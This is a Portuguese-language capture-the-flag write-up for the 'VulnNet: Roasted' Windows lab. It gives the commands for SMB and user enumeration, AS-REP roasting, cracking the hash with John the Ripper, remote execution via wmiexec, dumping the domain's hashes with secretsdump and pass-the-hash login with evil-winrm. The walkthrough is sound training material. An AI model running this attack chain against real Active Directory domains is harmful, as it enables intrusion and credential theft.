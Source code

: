 # _**VulnNet: Roasted CTF**_
![](net.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Informações importantes que podemos extrair deste scan
* Domain: vulnnet-rst.local0.
* Service Info: Host: WIN-2BO8M1OE1M1

Temos também um serviço SMB do qual podemos tentar enumerar com ```smbclient -L \\\\[ip_address]```  

![](smb_client.jpg)

Isso é interessante, quando a máquina tem SMB aberto e IPC$ aberto com acesso mínimo de leitura, ela fica vulnerável a outras enumerações de usuários
Primeiro, vamos executar o  coamndo abaixo para verificar permissões  
> ```bash
> smbmap -u anonymous -H [ip_address]
> ```
![](smbmap_return.jpg)

Vamos também buscar por _usernames_ com [lookupsid](https://github.com/fortra/impacket/blob/master/examples/lookupsid.py)
> ```bash
> lookupsid.py anonymous@[ip_address] | tee usernames
> ```
![](lookup.jpg)

Parece que temos alguns usuários  
Vamos limpar com ```cat usernames | grep SidTypeUser  |gawk -F '\' '{ print $2 }' |gawk -F ' ' '{ print $1 }' | tee usernames```  
Podemos usar GetNPUsers.py do impacket, que pode verificar se há nomes de usuários válidos e se eles não exigem a pré-autenticação Kerberos (PREAUTH) habilitada
> ```bash
> GetNPUsers.py vulnnet-rst.local/ -usersfile usernames -no-pass -dc-ip [ip_address]
> ```
![](get_np_user.jpg)

Parece que temos uma hash  
Vamos utilizar <mark>John the Ripper</mark> para tentar quebrar  
Primeiro, copiamos para um arquivo _.txt_  
Em seguida, usamos o comando ```john --wordlist=/usr/share/wordlist/rockyou.txt [filename.txt]```  

![](broken_hash.jpg)

Encontramos a senha para **t-skid**  
Agora, vamos realizar login via SMB com ```smbclient  -U t-skid \\\\[ip_address]\\NETLOGON```  
Procurando por arquivos, encontramos um, _ResetPassword.vbs_  
Puxamos para nosso computador e tentamos ler com ```cat```  
Após um pouco de investigação, conseguimos encontrar credenciais!  

![](creds.jpg)

Vamos utilizar wmiexec.py  
Ele é um script do Impacket que permite executar comandos remotamente em um host Windows utilizando WMI  
> ```bash
> wmiexec.py vulnnet-rst.local/a-whitehat@[ip_address]
> ```
![](login.jpg)

Navegando pelos diretórios, conseguimos encontrar nossa primeira flag em uma pasta no 'Desktop'  
Agora, para escalarmos privilégios, vamos primeiro executar o comando ```whoami /groups```  

![](groups.jpg)

O usuário a-whithat é um administrador de domínio, podemos executar um ataque DCSync para obter o hash do administrador e fazer login via EvilWinRM  
Primeir, vamos executar o comando abaixo para obter hashes  
> ```bash
> secretsdump.py a-whitehat@[ip_address]
> ```
![](hash_dump.jpg)

Conseguimos hash de administrador!  
Vamos utilizar o seguinte comando para realizar login  
> ```bash
> evil-winrm -i [ip_address] -u Administrator -H [admin_hash]
> ```
A flag pode ser obtida no _desktop_ do administrador!
